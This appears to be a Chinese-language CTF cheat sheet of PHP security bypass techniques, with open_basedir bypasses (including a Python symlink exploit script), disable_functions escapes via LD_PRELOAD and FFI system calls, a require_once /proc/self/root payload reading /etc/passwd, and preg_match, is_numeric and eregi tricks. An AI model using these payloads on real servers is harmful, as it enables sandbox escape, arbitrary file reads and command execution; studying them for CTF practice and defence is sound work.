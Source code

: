 # PHP中的重要函数

## open_basedir绕过

```php
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

分析：https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/


symlink 法

```python
def exploit(f):
    #print f
    payload="""
error_reporting(E_ALL);
chdir("/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/");
mkdir('./{0}/b/c/d/e/f/g/',0777,TRUE);
symlink('./{0}/b/c/d/e/f/g','{1}');
ini_set('open_basedir','/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3:{2}/');
symlink('{1}/../../../../../../','{2}');
unlink('{1}');
echo base64_encode(file_get_contents('{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f)
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url,headers=headers)
    print req.text
```

### 扩展资料

https://www.mi1k7ea.com/2019/07/20/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-open-basedir%E7%9A%84%E6%96%B9%E6%B3%95/


## Bypass ``disabled_function``

### LD_PRELOAD

原理：

PHP 的 ``putenv()``函数，设定 ``LD_PRELOAD(环境变量)`` 为 ``hack.so``。

利用 PHP 的 ``mail()``函数，``mail()`` 内部启动新进程 ``/usr/sbin/sendmail``，因为上一步 ``LD_PRELOAD``的作用，``sendmail`` 调用的``void()``函数 被优先级更好的 ``hack.so`` 中的同名 ``getuid()``函数所劫持。

#### Exp

https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD

### php 7.4 FFI


根据官方文档``FFI``是可以直接调用系统函数的

比如这样

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("id > /tmp/eki");
echo file_get_contents("/tmp/eki");
@unlink("/tmp/eki");
```

**但是``FFI API``仅能适用于预加载文件**

## require_once

poc:

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/etc/passwd
```


php源码分析 require_once 绕过不能重复包含文件的限制：https://www.anquanke.com/post/id/213235

## file_get_content

关于file_put_contents的一些小测试: https://cyc1e183.github.io/2020/04/03/%E5%85%B3%E4%BA%8Efile_put_contents%E7%9A%84%E4%B8%80%E4%BA%9B%E5%B0%8F%E6%B5%8B%E8%AF%95/

## preg_match 

1. 修改htaccess参数

    ```
    php_value pcre.backtrack_limit 0
    php_value pcre.jit 0 
    ```

2. 数组绕过


## is_numeric()

用于判断是否是数字，通常配合数值判断

```php
is_numeric(@$a["param1"])?exit:NULL;
if(@$a["param1"]){
    ($a["param1"]>2017)?$v1=1:NULL;
}
```

```php
$pos = array_search("nudt",$a["param2"]);
$pos ==false?die("nope"):NULL;
foreach($a["param2"] as $key=>$val){
        $val==="nudt"?die("nope"):NULL;
    }
//param2中需要匹配到nudt然而是弱类型，0==任何字符串，用0可以过掉弱类型检查字符串
```


## eregi

存在\x00截断的问题